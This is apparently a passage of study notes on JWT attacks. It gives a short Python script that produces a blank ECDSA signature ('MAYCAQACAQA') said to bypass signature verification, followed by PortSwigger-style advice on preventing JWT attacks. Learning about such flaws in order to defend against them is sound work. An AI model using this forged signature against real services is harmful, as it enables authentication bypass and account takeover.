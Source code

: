 Python script to generate a blank signature ****

```python
from ecdsa.ecdsa import Signature
from ecdsa.util import sigencode_der
import base64

sig = Signature(0, 0) 

print(base64.urlsafe_b64encode(sigencode_der(0, 0, 1)).strip(b'=').decode('utf-8'))
```

signature: `MAYCAQACAQA` 

we can use this signature to bypass signature verification

---

# **How to prevent JWT attacks**

You can protect your own websites against many of the attacks we've covered by taking the following high-level measures:

- Use an up-to-date library for handling JWTs and make sure your developers fully understand how it works, along with any security implications. Modern libraries make it more difficult for you to inadvertently implement them insecurely, but this needs to be foolproof due to the inherent flexibility of the related specifications.
- Make sure that you perform robust signature verification on any JWTs that you receive, and account for edge cases such as JWTs signed using unexpected algorithms.
- Enforce a strict whitelist of permitted hosts for the `jku` header.
- Make sure that you're not vulnerable to [path traversal](https://portswigger.net/web-security/file-path-traversal) or SQL injection via the `kid` header parameter.

## ⇒ **Additional best practice for JWT handling**

Although not strictly necessary to avoid introducing vulnerabilities, we recommend adhering to the following best practice when using JWTs in your applications:

- Always set an expiration date for any tokens that you issue.
- Avoid sending tokens in URL parameters where possible.
- Include the `aud` (audience) claim (or similar) to specify the intended recipient of the token. This prevents it from being used on different websites.
- Enable the issuing server to revoke tokens (on logout, for example).
